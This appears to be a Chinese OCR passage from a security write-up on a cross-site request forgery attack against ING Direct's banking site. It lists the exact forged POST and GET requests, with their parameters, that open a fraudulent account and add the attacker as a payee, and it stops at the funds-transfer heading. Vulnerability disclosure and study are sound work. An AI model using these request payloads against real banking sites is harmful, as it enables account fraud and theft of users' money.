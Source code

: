 （c）攻击者选择任意数量的资金从用户的储蓄账户转移到新的欺诈账户：  
- 通过以下参数向 `https://secure.ingdirect.com/myaccount/INGDirect.html` 发送POST请求：
```
command=ocaValidateFunding&PRIMARY
CARD=true&JOINTCARD=true&Account
Nickname=[ACCOUNT NAME]&FROMACCT=
0&TAMT=[INITIAL AMOUNT]&YES, I
WANT TO CONTINUE..x=44&YES, I
WANT TO
CONTINUE..y=25&XTYPE=4000USD
&XBCRCD=USD
…其中[ACCOUNT NAME]是用户将看到的账户的名称，[INITIAL AMOUNT]是开户时转入新账户的金额。  
帐号名称可以是任何字符串，攻击者不需要知道它是一个简单的昵称，它将用于新帐户。
```
（d）攻击者使用户的浏览器点击最终的“开户”按钮，导致ING代表用户开立一个新的支票帐户：  
- 通过以下参数向 `https://secure.ingdirect.com/myaccount/INGDirect.html` 发送POST请求：
```
command=ocaOpenAccount&Agree
ElectronicDisclosure=yes&AgreeTerms
Conditions=yes&YES, I WANT TO
CONTINUE..x=44&YES, I WANT TO
CONTINUE..y=25&YES, I WANT TO
CONTINUE.=Submit
```

2.攻击者将自己作为收款人添加到用户帐户中。 

（a）攻击者导致用户的浏览器访问ING的“添加人员”页面：  
- 向 `https://secure.ingdirect.com/myaccount/INGDirect.html?command=goToModifyPersonalPayee&Mode=Add&from=displayEmailMoney` 发送GET请求

（b）攻击者使用户的浏览器输入攻击者的信息：  
- 通过以下参数向 `https://secure.ingdirect.com/myaccount/INGDirect.html` 发送POST请求：
```
command=validateModifyPersonalPayee
&from=displayEmailMoney&PayeeName
=[PAYEE NAME]&PayeeNickname=&chk
Email=on&PayeeEmail=[PAYEE EMAIL]
&PayeeIsEmailToOrange=true&Payee
OrangeAccount=[PAYEE ACCOUNT NUM]&
YES, I WANT TO CONTINUE..x=44
&YES, I WANT TO CONTINUE..y=25
…其中[PAYEE NAME]是攻击者的名字，[PAYEE EMAIL]是攻击者的电子邮件地址，[PAYEE ACCOUNT NUM]是攻击者的ING帐号。
```

（c）攻击者使用户的浏览器确认攻击者是有效的收款人：  
- 通过以下参数向 `https://secure.ingdirect.com/myaccount/INGDirect.html` 发送POST请求：
```
command=modifyPersonalPayee&from=
displayEmailMoney&YES, I WANT TO
CONTINUE..x=44 &YES, I WANT TO
CONTINUE..y=25
```

3.攻击者将资金从用户账户转移到自己的账户。
